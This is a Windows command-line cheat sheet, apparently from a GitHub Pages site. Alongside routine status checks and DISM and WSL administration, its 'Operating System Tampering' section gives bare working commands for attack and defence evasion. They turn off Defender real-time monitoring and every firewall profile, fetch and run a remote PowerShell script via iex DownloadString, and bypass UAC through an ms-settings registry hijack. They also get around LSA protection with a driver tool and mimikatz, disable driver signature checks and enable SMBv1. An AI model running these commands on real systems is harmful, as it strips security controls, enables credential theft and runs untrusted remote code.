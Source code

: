 ```yaml
---
layout: default
title: Sysadmin CLI WIN
parent: Sysadmin
categories: Sysadmin
grand_parent: Cheatsheets
---
```

<!-- vscode-markdown-toc -->
* 1. [Security Checks](#SecurityChecks)
	* 1.1. [listing kb](#listingkb)
	* 1.2. [windows firewall status](#windowsfirewallstatus)
	* 1.3. [windows defender status](#windowsdefenderstatus)
* 2. [Operating System Tampering](#OperatingSystemTampering)
	* 2.1. [donwload ps activedirectory module](#donwloadpsactivedirectorymodule)
	* 2.2. [windows defender: disable](#windowsdefender:disable)
	* 2.3. [windows firewall: disable](#windowsfirewall:disable)
	* 2.4. [windows uac: bypass](#windowsuac:bypass)
	* 2.5. [Windows lsaprotection: bypass](#Windowslsaprotection:bypass)
	* 2.6. [Windows driver signature: disable](#Windowsdriversignature:disable)
	* 2.7. [SMBv1: enable](#SMBv1:enable)
* 3. [Windows DISM](#WindowsDISM)
* 4. [Windows WSL manual distro install](#WindowsWSLmanualdistroinstall)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

# {{ page.title }}

##  1. <a name='SecurityChecks'></a>Security Checks

###  1.1. <a name='listingkb'></a>listing kb
```batch
wmic qfe list full /format:table
```

###  1.2. <a name='windowsfirewallstatus'></a>windows firewall status
```batch
# logfile: %systemroot%\system32\LogFiles\Firewall\pfirewall.log
netsh advfirewall show allprofiles
```

###  1.3. <a name='windowsdefenderstatus'></a>windows defender status
```batch
powershell -inputformat none -outputformat text -NonInteractive -Command 'Get-MpPreference | select -ExpandProperty "DisableRealtimeMonitoring"'
```

##  2. <a name='OperatingSystemTampering'></a>Operating System Tampering

###  2.1. <a name='donwloadpsactivedirectorymodule'></a>donwload ps activedirectory module 
```batch
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory
```

###  2.2. <a name='windowsdefender:disable'></a>windows defender: disable
```batch
powershell.exe -Command Set-MpPreference -DisableRealtimeMonitoring $true
```


###  2.3. <a name='windowsfirewall:disable'></a>windows firewall: disable
```batch
netsh advfirewall set publicprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set allprofiles state off
```

###  2.4. <a name='windowsuac:bypass'></a>windows uac: bypass
```batch
powershell New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value cmd.exe -Force
```

###  2.5. <a name='Windowslsaprotection:bypass'></a>Windows lsaprotection: bypass
```batch
powershell .\ConsoleApplication1.exe/InstallDriver
powershell .\ConsoleApplication1.exe/makeSYSTEMcmd
powershell .\mimikatz.exe
```

###  2.6. <a name='Windowsdriversignature:disable'></a>Windows driver signature: disable
```batch
bcdedit.exe /set nointegritychecks on
bcdedit.exe /set testsigning on
```

###  2.7. <a name='SMBv1:enable'></a>SMBv1: enable
```batch
DISM /online /enable-feature /featurename:SMB1Protocol
DISM /online /enable-feature /featurename:SMB1Protocol-Client
DISM /online /enable-feature /featurename:SMB1Protocol-Server
DISM /online /enable-feature /featurename:SMB1Protocol-Deprecation
```

##  3. <a name='WindowsDISM'></a>Windows DISM
```batch
# Pre requisites: Admin rights
# get all windows feature and save to a txt file
DISM /online /get-features /format:table > C:\Temp\dism_listing.txt
get-windowsoptionalfeature -online | ft | more

# get windows feature that are enable/disable
DISM /online /get-features /format:table | find “Enabled” | more
DISM /online /get-features /format:table | find “Disabled” | more

# get windows feature by its name
DISM /online /get-featureinfo /featurename:Microsoft-Windows-Subsystem-Linux
DISM /online /get-featureinfo /featurename:TelnetClient
get-windowsoptionalfeature -online -featurename SMB1Protocol*
get-windowsoptionalfeature -online -featurename SMB1Protocol* |ft
```

##  4. <a name='WindowsWSLmanualdistroinstall'></a>Windows WSL manual distro install
```
# Note: By pass the GPO blocking the exec of the App Store app

Enable-WindowsOptionalFeature -Online -FeatureName Microsoft-Windows-Subsystem-Linux
New-Item C:\Ubuntu -ItemType Directory
Set-Location C:\Ubuntu
Invoke-WebRequest -Uri https://aka.ms/wsl-ubuntu-1604 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wslubuntu2004 -OutFile Ubuntu.appx -UseBasicParsing
Invoke-WebRequest -Uri https://aka.ms/wsl-kali-linux-new -OutFile Kali.appx -UseBasicParsing
 
# Extract and execute the EXE in the archive to install the distro
Rename-Item .\Ubuntu.appx Ubuntu.zip
Expand-Archive .\Ubuntu.zip -Verbose
Ubuntu.exe

# List the distributions installed
wslconfig /list /all
wsl -l
```
